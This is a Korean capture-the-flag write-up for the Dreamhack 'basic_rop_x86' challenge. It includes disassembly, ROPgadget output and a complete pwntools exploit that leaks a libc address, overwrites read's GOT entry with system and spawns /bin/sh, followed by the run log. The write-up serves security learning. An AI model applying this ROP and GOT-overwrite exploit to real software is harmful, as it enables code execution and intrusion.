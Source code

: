 ```yaml
---
title: basic_rop_x86
author: hwang
date: 2024-05-15 17:00:00 +0900
categories: [Dreamhack, System Hacking]
tags: [basic_rop_x86]     # TAG names should always be lowercase
---
```


## description
이 문제는 서버에서 작동하고 있는 서비스(basic_rop_x86)의 바이너리와 소스 코드가 주어집니다.
Return Oriented Programming 공격 기법을 통해 셸을 획득한 후, "flag" 파일을 읽으세요.
"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
플래그의 형식은 DH{...} 입니다.

## Envrionment
```text
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

## Solution
문제를 푸는 방식은 이전 basic_rop_x64와 비슷하다. 다만 참고해야 할 점이 있다.

x86 시스템의 Calling Convention (_cdecl)은 x64처럼 레지스터에 인자를 넣고 호출하는 방식이 아닌, 스택 프레임을 이용해 오른쪽 -> 왼쪽으로 인자를 전달한다.

문제 풀이에 사용된 기법으로 basic_rop_x64에서는 ret2main기법으로 main함수를 다시 호출하였지만, 이번에는 GOT overwrite을 통해 read()을 system()으로 덮었다.

main 함수를 정적분석 하였다.
```bash
pwndbg> disass main
Dump of assembler code for function main:
   0x080485d9 <+0>:	push   ebp
   0x080485da <+1>:	mov    ebp,esp
   0x080485dc <+3>:	push   edi
   0x080485dd <+4>:	sub    esp,0x40
   0x080485e0 <+7>:	lea    edx,[ebp-0x44]
   0x080485e3 <+10>:	mov    eax,0x0
   0x080485e8 <+15>:	mov    ecx,0x10
   0x080485ed <+20>:	mov    edi,edx
   0x080485ef <+22>:	rep stos DWORD PTR es:[edi],eax
   0x080485f1 <+24>:	call   0x8048592 <initialize>
   0x080485f6 <+29>:	push   0x400
   0x080485fb <+34>:	lea    eax,[ebp-0x44]
   0x080485fe <+37>:	push   eax
   0x080485ff <+38>:	push   0x0
   0x08048601 <+40>:	call   0x80483f0 <read@plt>
   0x08048606 <+45>:	add    esp,0xc
   0x08048609 <+48>:	push   0x40
   0x0804860b <+50>:	lea    eax,[ebp-0x44]
   0x0804860e <+53>:	push   eax
   0x0804860f <+54>:	push   0x1
   0x08048611 <+56>:	call   0x8048450 <write@plt>
   0x08048616 <+61>:	add    esp,0xc
   0x08048619 <+64>:	mov    eax,0x0
   0x0804861e <+69>:	mov    edi,DWORD PTR [ebp-0x4]
   0x08048621 <+72>:	leave  
   0x08048622 <+73>:	ret    
End of assembler dump.
```
> `buf` = [ebp-0x44]
{: .prompt-info }

버퍼의 크기는 0x40이고, ebp-0x4에 4바이트의 sfp가 존재하므로, 총 0x48 크기를 덮어 버퍼 오버플로우 공격을 해야 한다.

```bash
pwndbg> plt
Section .plt 0x80483e0-0x8048470:
0x80483f0: read@plt
0x8048400: signal@plt
0x8048410: alarm@plt
0x8048420: puts@plt
0x8048430: exit@plt
0x8048440: __libc_start_main@plt
0x8048450: write@plt
0x8048460: setvbuf@plt
```
read@plt는 처음 실행될 경우, 라이브러리에서 read()의 주소를 got에 저장하고, 이후 호출될 경우 이를 참고한다. got에 저장된 주소를 임의로 변경하여 GOT overwrite 공격을 수행할 수 있다.

```bash
write@plt을 통해 read()의 주소를 읽는다. 이를 이용하여 libc_base, 그리고 system()의 주소값을 구할 수 있다.

hwangshincheol@hsc:~/test/basic_rop_x86$ ROPgadget --binary ./basic_rop_x86 --re 'pop edi'
Gadgets information
============================================================
0x08048685 : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048684 : jecxz 0x8048609 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x08048683 : jne 0x8048668 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08048686 : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x08048687 : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x08048688 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804868a : pop edi ; pop ebp ; ret
0x08048689 : pop esi ; pop edi ; pop ebp ; ret

Unique gadgets found: 8
```
write@plt을 호출할 때 ret주소값으로 3개의 인자를 전달하는 [pop esi ; pop edi ; pop ebp ; ret] 가젯을 사용할 수 있다.

```bash
hwangshincheol@hsc:~/test/basic_rop_x86$ ROPgadget --binary ./basic_rop_x86 --re 'pop ebx'
Gadgets information
============================================================
0x080483d4 : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x08048685 : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080483d6 : add esp, 8 ; pop ebx ; ret
0x0804869f : arpl word ptr [ecx], bx ; add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x08048683 : jne 0x8048668 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080483d2 : lcall 0x8c4, 0x83000000 ; pop ebx ; ret
0x080483d7 : les ecx, ptr [eax] ; pop ebx ; ret
0x08048688 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080483d9 : pop ebx ; ret

Unique gadgets found: 9
```
이후 system()으로 덮은 read()을 호출하면서 인자를 전달할 때 하나의 인자만 필요하므로, [pop ebx ; ret]가젯을 사용할 수 있다.

Exploit 코드는 다음과 같다.

```python
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = process('./basic_rop_x86', env={"LD_PRELOAD": './libc.so.6'})
#p = remote('host3.dreamhack.games', 12180)
e = ELF('./basic_rop_x86')
libc = ELF('./libc.so.6')
r = ROP(e)

read_plt = e.plt["read"]
read_got = e.got["read"]
write_plt = e.plt["write"]

read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]

pop_esi_edi_ebp = r.find_gadget(['pop esi', 'pop edi', 'pop ebp', 'ret'])[0]
pop_ebx = r.find_gadget(['pop ebx', 'ret'])[0]

# write(1, read@got, 4)
payload = b'A' * 0x40 + b'B' * 0x4 + b'C' * 0x4
payload += p32(write_plt)
payload += p32(pop_esi_edi_ebp) + p32(1) + p32(read_got) + p32(4)

# read(0, read@got, 100)
payload += p32(read_plt)
payload += p32(pop_esi_edi_ebp)
payload += p32(0) + p32(read_got) + p32(100)

# read("/bin/sh") = system("/bin/sh")
payload += p32(read_plt)
payload += p32(pop_ebx)
payload += p32(read_got + 0x4)


p.send(payload)
p.recvuntil(b"A" * 0x40)

read = u32(p.recvn(4))
libc_base = read - read_offset
system = libc_base + system_offset

slog('read',read)
slog('libc_base',libc_base)
slog('system',system)

p.send(p32(system) + b'/bin/sh\x00')

p.interactive()
```
실행결과는 다음과 같다.
```bash
hwangshincheol@hsc:~/test/basic_rop_x86$ python3 basic_rop_x86.py
[+] Starting local process './basic_rop_x86': pid 10092
[*] '/home/hwangshincheol/test/basic_rop_x86/basic_rop_x86'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/home/hwangshincheol/test/basic_rop_x86/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 9 cached gadgets for './basic_rop_x86'
[+] read: 0xf3b084c0
[+] libc_base: 0xf3a00000
[+] system: 0xf3a47cb0
[*] Switching to interactive mode
ERROR: ld.so: object './libc.so.6' from LD_PRELOAD cannot be preloaded (wrong ELF class: ELFCLASS32): ignored.
ERROR: ld.so: object './libc.so.6' from LD_PRELOAD cannot be preloaded (wrong ELF class: ELFCLASS32): ignored.
$ ls
ERROR: ld.so: object './libc.so.6' from LD_PRELOAD cannot be preloaded (wrong ELF class: ELFCLASS32): ignored.
Dockerfile  basic_rop_x86  basic_rop_x86.c  basic_rop_x86.py  flag  libc.so.6
$ cat flag
ERROR: ld.so: object './libc.so.6' from LD_PRELOAD cannot be preloaded (wrong ELF class: ELFCLASS32): ignored.
DH{**flag**}
```
> 필자는 exploit이 안되는 이유가 최신 버전의 리눅스에서의 libc.so.6 보안기법의 변화라고 생각한다. 강제로 preload를 지정해서 이를 무시하였다. 실제로 테스트용 vm서버에서는 정상적으로 쉘을 얻어 문제를 풀 수 있었다. 만약 틀렸을 경우 추후에 업데이트 하겠다.
{: .prompt-info }